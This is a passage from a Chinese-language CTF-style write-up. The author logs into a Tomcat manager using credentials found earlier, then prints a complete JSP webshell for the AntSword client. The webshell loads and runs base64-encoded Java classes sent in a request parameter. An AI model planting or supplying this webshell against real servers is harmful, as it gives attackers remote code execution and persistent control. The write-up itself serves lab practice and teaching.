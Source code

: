 给了账号密码。

### 登录tomcat

```apl
aquaMan
P4st3lM4n
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403221609583.png" alt="image-20240322144549810" style="zoom:33%;" />

进入后台了，想起之前搜集漏洞的时候发现这个版本存在`JSP`上传的漏洞，尝试上传一下`AntSword`连接的JSP木马：

```java
// exp.jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("hack");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

上传时候发现：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403221609584.png" alt="image-20240322145535226" style="zoom:50%;" />

看一下这个文件是啥东西：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403221609585.png" alt="image-20240322145727732" style="zoom:50%;" />
